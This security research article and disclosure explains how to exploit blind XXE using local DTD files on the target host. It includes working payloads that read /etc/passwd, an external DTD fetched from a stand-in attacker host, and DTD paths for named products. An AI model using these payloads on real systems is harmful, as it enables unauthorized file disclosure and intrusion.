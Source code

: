 # [Exploiting XXE with local DTD files](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)

https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/

This little technique can force your blind XXE to output anything you want!

![Preview](preview.png)

## Why do we have trouble exploiting XXE in 2k18?

Imagine you have an XXE. External entities are supported, but the server’s response is always empty. In this case you have two options: **error-based** and **out-of-band** exploitation.

<style>.e2-text .dtd1 th, .e2-text .dtd1 td { padding: 0 0 0 0; }</style>

Consider this error-based example:

**Request**
```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % ext SYSTEM "http://attacker.com/ext.dtd">
    %ext;
]>
<message></message>
```

**Response**
```
java.io.FileNotFoundException: /nonexistent/  
**root:x:0:0:root:/root:/bin/bash  
bin:x:1:1:bin:/bin:/usr/bin/nologin  
daemon:x:2:2:daemon:/:/usr/bin/nologin  **
(No such file or directory)
```

**Contents of ext.dtd**

    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
    %eval;
    %error;

See? You are using an external server for payload delivery. What can you do if there is a firewall between you and the target server? Nothing!

What if we just put external DTD content directly in the DOCTYPE? Some errors will always appear:


**Request**

    <?xml version="1.0" ?>
    <!DOCTYPE message [
        <!ENTITY % file SYSTEM "file:///etc/passwd">
        <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
        %eval;
        %error;
    ]>
    <message></message>

**Response**

    Internal Error: SAX Parser Error. Detail:  
    The parameter entity reference “%file;” cannot occur within markup in the internal subset of the DTD.
    

External DTD allows us to include one entity inside the second, but it is prohibited in the internal DTD.

## What can we do with internal DTD?

To use external DTD syntax in the internal DTD subset, you can bruteforce a local dtd file on the target host and redefine some parameter-entity references inside it:


**Request**

    <?xml version="1.0" ?>
    <!DOCTYPE message [
        <!ENTITY % local_dtd SYSTEM "file:///opt/IBM/WebSphere/AppServer/properties/sip-app_1_0.dtd">

        <!ENTITY % condition 'aaa)>
            <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
            <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
            &#x25;eval;
            &#x25;error;
            <!ELEMENT aa (bb'>

        %local_dtd;
    ]>
    <message>any text</message>

**Response**

    java.io.FileNotFoundException: /nonexistent/  
    <span style="background: #D9FFAD;">root:x:0:0:root:/root:/bin/bash  
    bin:x:1:1:bin:/bin:/usr/bin/nologin  
    daemon:x:2:2:daemon:/:/usr/bin/nologin  
    </span>  
    (No such file or directory)

**Contents of sip-app_1_0.dtd**

    …
    <!ENTITY % condition "and | or | not | equal | contains | exists | subdomain-of">
    <!ELEMENT pattern (%condition;)>
    …

It works because all XML entities are constant. If you define two entities with the same name, only the first one will be used.

## How can we find a local dtd file?

Nothing is easier than enumerating files and directories. Below are a few more examples of successful applications of this trick:  

### Custom Linux System

    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamsa 'Your DTD code'>
    %local_dtd;

### Custom Windows System

    <!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
    <!ENTITY % SuperClass '>Your DTD code<!ENTITY test "test"'>
    %local_dtd;

Thanks to @Mike_n1 from Positive Technologies for sharing this path of always-existing Windows DTD file.

### Cisco WebEx

### 

    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd">
    <!ENTITY % url.attribute.set '>Your DTD code<!ENTITY test "test"'>
    %local_dtd;

### Citrix XenMobile Server

    <!ENTITY % local_dtd SYSTEM "jar:file:///opt/sas/sw/tomcat/shared/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd">
    <!ENTITY % Body '>Your DTD code<!ENTITY test "test"'>
    %local_dtd;

### Custom Multi-Platform IBM WebSphere Application

    <!ENTITY % local_dtd SYSTEM "./../../properties/schemas/j2ee/XMLSchema.dtd">
    <!ENTITY % xs-datatypes 'Your DTD code'>
    <!ENTITY % simpleType "a">
    <!ENTITY % restriction "b">
    <!ENTITY % boolean "(c)">
    <!ENTITY % URIref "CDATA">
    <!ENTITY % XPathExpr "CDATA">
    <!ENTITY % QName "NMTOKEN">
    <!ENTITY % NCName "NMTOKEN">
    <!ENTITY % nonNegativeInteger "NMTOKEN">
    %local_dtd;

## Timeline

    01/01/2016 — Discovering the technique
    12/12/2018 — Writing the article :D
    13/12/2018 — Full disclosure
